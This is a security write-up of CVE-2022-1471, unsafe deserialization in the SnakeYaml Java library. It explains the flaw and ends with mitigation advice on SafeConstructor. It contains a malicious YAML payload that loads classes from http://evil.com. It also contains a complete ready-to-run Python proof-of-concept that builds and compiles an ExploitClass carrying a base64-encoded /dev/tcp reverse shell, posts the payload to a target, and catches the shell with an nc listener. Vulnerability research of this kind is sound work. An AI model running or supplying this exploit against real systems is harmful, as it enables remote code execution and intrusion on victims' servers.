

# Analysis CVE-2022-1471 (SnakeYaml)

## Introduction
### CVE-2022-1471
This is specific to SnakeYaml@1.33 and 1.32 versions. The vulnerability occurs when using the SnakeYaml “Constructor” directly, but not when using "SafeConstructor". 

The SnakeYaml library for Java is vulnerable to arbitrary code execution due to a flaw in its Constructor class. The class does not restrict which types can be deserialized, allowing an attacker to provide a malicious YAML file for deserialization and potentially exploit the system.

Severity:


### SnakeYaml
SnakeYAML is a popular Java library for parsing and emitting YAML (YAML Ain't Markup Language) files. It allows Java applications to read and write YAML data, which is a human-readable format often used for configuration files or data exchange. 

SnakeYAML supports all versions of YAML and can handle complex data structures like mappings (dictionaries), sequences (lists), and scalar values (strings, numbers, ...).


### Java Deserialization

First I need to know the basic knowledge that `What is  Serialization and Deserialization?`. 

- Serialization is the process of converting a data structure or object into series of bytes that can be easily stored, transmitted, or persisted. The resulting serialized data is often in a standardized, platform-independent format, such as JSON, XML, or binary data.
- Deserialization is the reverse process of serialization, it converts series of bytes to objects or data structure. 

So why need these processes ? On low-level, especially when you want to send data over a network to another. You need to encode  the data to compatible format. For this purpose, the object needs to be transformed into a byte stream. 


The advantage of serialization and deserialization is that byte stream is platform-independent, which means after serializing the object on one platform, it can be converted back to the original state on any other platform. 

### YAML Language

YAML is a human-readable data serialization language used for data storage and data exchange formats. Originally, YAML stands for Yet Another Markup Language, but then change to a recursive acronym stands for YAML Ain’t Markup Language. Not only YAML is used for writting configuration files and metadata but also be used to many data structures such as arrays, and dictionaries.

Below is an example of a simple YAML structure:

```yaml
name: John Cena
alias:
    - Bing Chilling
    - Who?
    - You Can't See Me
age: 47
hometown: China
occupations:
    - "1999–2025": wrestler
    - "2002–2005": rapper
    - "2006–present": actor
```

The YAML format mainly uses these three types:
- Mapping: a map/dictionary-like type with each element is a pair of key-value type, and each key must be unique.
- Sequences: an array/list type structure
- Literals: string, number, boolean,... type.


## Workflow
SnakeYaml vulnerability example code:
```java
Yaml yaml = new Yaml();
File file = new File("file.yaml");
InputStream inputStream = new FileInputStream(file);
User user = yaml.load(inputStream);
```

When you load a file yaml that can have untrusted user input. Without any input validation, you can get remote code execute from attacker. 

One of existed features of SnakeYaml is its support for a special syntax that allows the constructor of any Java class to be called when parsing YAML data.

Because the input gets parsed to the generic `Object.class`, which is [supertype](https://docs.oracle.com/javase/8/docs/api/java/lang/Object.html) of `Object` in Java and when `Object` is loaded into memory, any type can be used. This allows attacker using any  gadget or gadget chain available in the classpath of the application.

**How does the malicious YAML file looks like ?**
Vulnerable class example:
```java
class VulnerableClass {
  public String command;
  public String toString() {
    return command;
  }
}
```
File YAML:
```yaml
!!VulnerableClass
command: !!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL [ "http://evil.com" ] ] ]]
```

From the [Oracle/OpenJDK standard library](https://docs.oracle.com/javase/8/docs/api/javax/script/ScriptEngineManager.html). This vulnerability allows remote code execution by exploiting the ability to load arbitrary classes from a remote class path. 
The `!!` [syntax](https://yaml.org/refcard.html) is being used to explicitly define the types for the objects being created in the YAML structure. 

- `!!VulnerableClass`: This declares that the root object is of type `VulnerableClass`.
- `!!javax.script.ScriptEngineManager`: This indicates that the value of the command key should be treated as an instance of the `javax.script.ScriptEngineManager` class.
- `!!java.net.URLClassLoader`: This creates an instance of `java.net.URLClassLoader`.
- `!!java.net.URL`: This explicitly creates an instance of `java.net.URL` with the value `http://evil.com`. Which means this can make a request to `http://evil.com`.


When i host a server and then receive the request from vulnerable app, it head to `/META-INF/services/javax.script.ScriptEngineFactory`. So what is it and how we can execute code. 
From this [post](https://stackoverflow.com/questions/4544899/java-meta-inf-services):
> It's intended to store service provider configuration files.
>
> A Service provider is an implementation of a Service Provider Interface packaged as JAR.
>
> A Service loader discover and load all implementations declared in the service provider configuration file.
>
> A configuration file is a file named as the fully qualified name of the interface and its content is a list of fully qualified names of implementations.

In brief, `/META-INF/services` contain the service when we import class in Java. And the payload I send that will point to `javax.script.ScriptEngineManager` class. 

From [this docs in oracle](https://docs.oracle.com/javase/8/docs/api/javax/script/ScriptEngineManager.html), It said that`ScriptEngineManager` simply return a string that use as a class name. So I can fake a class name which contains actual exploit which will perform remote code execution on the server.


In this situation, I write a string `ExploitClass` into `ScriptEngineManager`. But when I send request again, it said that `ExploitClass.class` is 404 not found. 

So the last step is build `ExploitClass.java` and then using command `javac` to compile into file `ExploitClass.class`.



## Proof of Concept
### PoC script

First, you need to run this script in your machine, this will automately create ExploitClass and send the payload to the victim. 

```py
#!/usr/bin/env python3
import requests
import random
import os
import sys
import base64
import threading
import subprocess

BASE_URL = "BASE_URL"
ATTACKER_IP = "ATTACKER_IP"
ATTACKER_PORT = "ATTACKER_PORT"
REVSHELL_PORT = "REVSHELL_PORT"
CMD = f"sh -i >& /dev/tcp/{ATTACKER_IP}/{REVSHELL_PORT} 0>&1"


def payload():
    data = f"""
    !!com.example.snakeyaml.Student
    age: {random.randint(1, 100)}
    id: {random.randint(1000, 9999)}
    department: !!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://{ATTACKER_IP}:{ATTACKER_PORT}/"]]]]
    firstName: masa
    lastName: mune
    """
    headers = {"Content-Type": "application/x-yaml"}

    response = requests.post(BASE_URL, headers=headers, data=data)

    print(f"[+] Sending payload to {BASE_URL}")

def create_service():
    os.makedirs("./META-INF/services", exist_ok=True)
    with open("./META-INF/services/javax.script.ScriptEngineFactory", "w") as f:
        f.write("ExploitClass")
    print("[+] Service created")


def create_java_file():
    cmd = base64.b64encode(CMD.encode()).decode()
    with open("ExploitClass.java", "w") as f:
        f.write(
            f"""
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.File;
import java.io.IOException;
import java.util.List;

public class ExploitClass implements ScriptEngineFactory {{
  public ExploitClass() throws Exception {{
    ProcessBuilder pb = new ProcessBuilder("bash", "-c", "echo {cmd} | base64 -d | /bin/bash").redirectErrorStream(true);
    try {{
      Process p = pb.start();
      p.waitFor();
      p.destroy();
    }} catch (Exception e) {{}}
  }}

  public String toString() {{
    return "Exploit Successful!";
  }}

  @Override public String getEngineName() {{ return null; }}
  @Override public String getEngineVersion() {{ return null; }}
  @Override public List<String> getExtensions() {{ return null; }}
  @Override public List<String> getMimeTypes() {{ return null; }}
  @Override public List<String> getNames() {{ return null; }}
  @Override public String getLanguageName() {{ return null; }}
  @Override public String getLanguageVersion() {{ return null; }}
  @Override public Object getParameter(String key) {{ return null; }}
  @Override public String getMethodCallSyntax(String obj, String m, String... args) {{ return null; }}
  @Override public String getOutputStatement(String toDisplay) {{ return null; }}
  @Override public String getProgram(String... statements) {{ return null; }}
  @Override public ScriptEngine getScriptEngine() {{ return null; }}
}}
            """
        )
    print("[+] Java file created")


def compile_java_file():
    os.system("javac --release 11 ExploitClass.java")
    print("[+] Java file compiled")


def main():
    # STEP 1: Create service
    create_service()
    
    # STEP 2: Create java file
    create_java_file()
    
    # STEP 3: Compile java file
    compile_java_file()

    # STEP 4: Send payload
    payload()

if __name__ == "__main__":
    main()
```

And then listen in your machine to receive victim's connection. You can using something like

```bash
nc -lvnp port
```

### Video
[Demo Video](https://www.youtube.com/watch?v=kag2nWVUSak)

## Mitigation
NIST recommend upgrading to version 2.0 and beyond. But when I review the latest source code of SnakeYaml, I think it still can be vulnurable. When you parse untrusted data, SnakeYaml can also be used in a safe way, by passing an instance of a SafeConstructor to the Yaml constructor.

Example:
```javas
Yaml yaml = new Yaml(new SafeConstructor()); // Only allow whitelist of constructors.
File file = new File("file.yaml");
InputStream inputStream = new FileInputStream(file);
Object obj = yaml.load(inputStream); // Safe to use
```

Or you can use SnakeYAML Engine. This also recommend by SnakeYaml in docs. 
Link: [SnakeYaml CVE & NIST](https://bitbucket.org/snakeyaml/snakeyaml/wiki/CVE%20&%20NIST.md)

## References
* https://www.labs.greynoise.io/grimoire/2024-01-03-snakeyaml-deserialization/
* https://snyk.io/blog/java-yaml-parser-with-snakeyaml/
* https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/
* https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in
* https://github.com/mbechler/marshalsec
* https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/
* https://securitylab.github.com/resources/apache-struts-vulnerability-cve-2017-9805/
* https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858